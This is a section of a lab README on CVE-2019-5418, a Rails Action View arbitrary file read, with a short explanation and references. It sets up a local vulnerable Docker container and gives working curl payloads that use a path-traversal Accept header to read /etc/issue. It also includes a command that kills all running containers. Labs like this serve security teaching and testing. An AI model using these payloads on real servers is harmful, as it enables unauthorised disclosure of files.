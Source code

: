 # 3. File Content Disclosure on Rails
## Subtitle / what it does
Ruby on Rails - arbitrary file read aka CVE-2019-5418. \
Also check its "child" vulnerability not related to Headers. The file read might lead to code execution. Reference: https://github.com/knqyf263/CVE-2019-5420

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
cd 3-ruby-rails
docker run -p 3000:3000 0snug0/cve-2019-5418
```

### Run in docker:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: 127.0.0.1:3000' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: .././.././.././.././.././.././.././.././.././.././etc/issue{{' -H $'Accept-Language: en' -H $'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H $'Connection: close' \
    $'http://127.0.0.1:3000/chybeta'
```

### Proxy via Burp:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: 127.0.0.1:3000' -H $'Accept-Encoding: gzip, deflate' --proxy http://127.0.0.1:8080 -H $'Accept: .././.././.././.././.././.././.././.././.././.././etc/issue{{' -H $'Accept-Language: en' -H $'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H $'Connection: close' \
    $'http://127.0.0.1:3000/chybeta'
```

### Explanation
There is a File Content Disclosure vulnerability in Action View <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1 and v3 where specially crafted accept headers can cause contents of arbitrary files on the target system's filesystem to be exposed.

![image](https://user-images.githubusercontent.com/31791455/140390131-fd85589a-f379-4fb7-b967-e060838742a5.png)
![image](https://user-images.githubusercontent.com/31791455/140390169-a646a665-9b95-4540-8f9b-93f6e6e37709.png)

### References and recommended reading
https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418

### Credits:
https://gist.github.com/ajxchapman/6ed7bf599f29a62cdbab7b6e95eebed9
https://github.com/mpgn/CVE-2019-5418

